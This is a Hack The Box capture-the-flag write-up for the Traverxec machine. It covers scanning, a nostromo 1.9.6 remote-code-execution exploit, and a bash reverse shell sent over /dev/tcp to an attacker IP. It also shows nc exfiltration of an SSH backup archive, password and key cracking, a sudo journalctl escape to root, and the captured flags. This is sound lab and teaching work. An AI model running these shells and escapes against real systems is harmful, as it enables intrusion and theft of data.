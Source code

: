 ```yaml
---
featured_image: "/posts/Traverxec/traverxec.png"
title : HTB 18/20 Traverxec
published : true
date: 2021-04-27
author : PS
---
```

## Foothold
*nmap*
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-29 11:04 EEST
Nmap scan report for 10.10.10.165
Host is up (0.090s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.15 seconds
```
Port 80 :
![img](1.png)
Running nikto on the target reveals something interesting :  
```bash
>>> nikto -h 10.10.10.165
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.165
+ Target Hostname:    10.10.10.165
+ Target Port:        80
+ Start Time:         2021-04-29 11:12:41 (GMT3)
---------------------------------------------------------------------------
+ Server: nostromo 1.9.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
```
*+ Server: nostromo 1.9.6*
Hmmm
![img](2.png)
```bash
>>> python2 exploit.py 10.10.10.165 80 whoami


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Thu, 29 Apr 2021 08:16:18 GMT
Server: nostromo 1.9.6
Connection: close


www-data
>>> python2 exploit.py 10.10.10.165 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.7/6969 0>&1"'

```
And we got a shell  
## User
After running linenum PS found .htpasswd
Which had a password inside it
```bash
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/  
```
Now after we crack it we get Nowonly4me  
Unfortunately that was not the ssh password :((  
Another interesting find is the /home dir , on web apps home dir are defined by ~
So :  
![img](3.png)
Now I tried many things there , nothing really worked , until I saw that index.html on the web page returning 200 , that means that the public_www is readable :D  
```bash
cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls
ls
index.html
protected-file-area
www-data@traverxec:/home/david/public_www$ 
```
Use nc to get the files on your pc : 
```bash
cd protected-file-area
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.7 6666
>>> nc -nlvp 6666 > backup.tgz
```
![img](4.png)
Crack the password wiith ssh2john
Then login with david
```bash
david@traverxec:~$ whoami
david
david@traverxec:~$ 
```
## Root
```bash
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
7db0b48469606a42cec20750d9782f3d
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.
cat: server-stats.: No such file or directory
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
david@traverxec:~/bin$ 
```
So we need to exploit journalctrl   
https://gtfobins.github.io/gtfobins/journalctl/
```bash
david@traverxec:~/bin$ sudo journalctl
[sudo] password for david: 
^Csudo: 1 incorrect password attempt
david@traverxec:~/bin$ ^C
```
wants the sudo password, so we need to work around that :  
```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
Then type less then !/bin/bash does the trick
```
```bash
!/bin/bash
root@traverxec:/home/david/bin# whoami
root
root@traverxec:/home/david/bin# cd /root
root@traverxec:~# cat root.txt
9aa36a6d76f785dfd320a478f6e0d906
root@traverxec:~# 
```

